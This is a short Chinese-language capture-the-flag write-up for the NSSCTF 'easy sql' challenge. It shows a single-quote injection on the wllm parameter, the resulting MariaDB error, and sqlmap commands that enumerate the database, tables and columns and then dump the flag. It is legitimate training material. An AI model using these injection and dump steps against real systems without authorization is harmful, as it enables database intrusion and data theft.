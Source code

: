 # easy sql

题目链接：https://www.nssctf.cn/problem/387



解题思路：

title显示了"参数是wllm"，因此应该这个就是可以注入的参数名。

输入：

```
http://node4.anna.nssctf.cn:28939/?wllm=1%27
```

报错：

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

上sqlmap，使用：

```
python sqlmap.py http://node4.anna.nssctf.cn:28939/?wllm=1%27 --current-db
```

得到数据库名：test_db

使用：

```
python sqlmap.py http://node4.anna.nssctf.cn:28939/?wllm=1%27 -D test_db --tables
```

得到表名：

```
test_tb
users
```

使用：

```
python sqlmap.py http://node4.anna.nssctf.cn:28939/?wllm=1%27 -D test_db -T test_tb --columns
```

得到列名：

```
flag
id
```

使用命令：

```
python sqlmap.py http://node4.anna.nssctf.cn:28939/?wllm=1%27 -D test_db -T test_tb -C flag --dump
```

得到flag。
